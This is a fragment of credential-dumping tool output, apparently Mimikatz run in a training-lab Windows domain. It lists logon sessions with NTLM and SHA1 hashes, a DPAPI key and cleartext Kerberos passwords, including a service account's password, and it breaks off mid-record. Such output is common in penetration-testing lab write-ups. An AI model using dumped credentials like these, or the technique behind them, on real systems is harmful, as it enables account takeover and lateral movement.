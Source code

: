 ```powershell
        credman :

<snip>

Authentication Id : 0 ; 12246696 (00000000:00badea8)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/27/2022 2:59:28 AM
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : US-JUMP$
         * Domain   : US
         * NTLM     : abff11a76a2fa6de107f0ea8251005c5
         * SHA1     : c130d6862fbe859a2285b9c17c54a9b8887291bd
        tspkg :
        wdigest :
         * Username : US-JUMP$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
        ssp :
        credman :

Authentication Id : 0 ; 81234 (00000000:00013d52)
Session           : Service from 0
User Name         : appsvc
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 2:38:23 AM
SID               : S-1-5-21-210670787-2521448726-163245708-4601
        msv :
         [00000003] Primary
         * Username : appsvc
         * Domain   : US
         * NTLM     : 1d49d390ac01d568f0ee9be82bb74d4c
         * SHA1     : c29d63c94f140118cee88165af764c67ae9c1e35
         * DPAPI    : 72631cfc6ac98f4b1de4e39c3f09d1f6
        tspkg :
        wdigest :
         * Username : appsvc
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : appsvc
         * Domain   : US.TECHCORP.LOCAL
         * Password : Us$rT0AccessDBwithImpersonation
        ssp :
        credman :

Authentication Id : 0 ; 26384696 (00000000:01929938)
Session           : Service from 0
User Name         : webmaster
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 3:07:09 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1140
```